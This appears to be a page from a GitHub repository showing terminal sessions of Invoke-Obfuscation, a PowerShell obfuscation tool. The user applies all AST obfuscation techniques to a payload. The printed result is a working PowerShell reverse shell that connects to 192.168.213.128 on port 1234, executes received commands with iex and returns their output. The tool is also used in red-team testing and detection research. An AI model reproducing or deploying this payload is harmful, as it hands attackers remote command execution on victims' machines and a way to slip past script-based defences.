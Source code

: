 ```
Invoke-Obfuscation> AST


Choose one of the below AST options:

[*] AST\NamedAttributeArgumentAst       Obfuscate NamedAttributeArgumentAst nodes
[*] AST\ParamBlockAst                   Obfuscate ParamBlockAst nodes
[*] AST\ScriptBlockAst                  Obfuscate ScriptBlockAst nodes
[*] AST\AttributeAst                    Obfuscate AttributeAst nodes
[*] AST\BinaryExpressionAst             Obfuscate BinaryExpressionAst nodes
[*] AST\HashtableAst                    Obfuscate HashtableAst nodes
[*] AST\CommandAst                      Obfuscate CommandAst nodes
[*] AST\AssignmentStatementAst          Obfuscate AssignmentStatementAst nodes
[*] AST\TypeExpressionAst               Obfuscate TypeExpressionAst nodes
[*] AST\TypeConstraintAst               Obfuscate TypeConstraintAst nodes
[*] AST\ALL                             Select All choices from above
```

```
Invoke-Obfuscation\AST> ALL


Choose one of the below AST\All options to APPLY to current payload:

[*] AST\ALL\1           Execute ALL Ast obfuscation techniques
```

```
Invoke-Obfuscation\AST\All> 1

Executed:
  CLI:  AST\All\1
  FULL: Out-ObfuscatedAst -ScriptBlock $ScriptBlock                                                                                                                                                                                        
                                                                                                                                                                                                                                           
Result:
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.213.128',1234));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()                            
                                                                                                                                                                                                                                           
                                                                                                                                                                                                                                           

Choose one of the below AST\All options to APPLY to current payload:

[*] AST\ALL\1           Execute ALL Ast obfuscation techniques
```

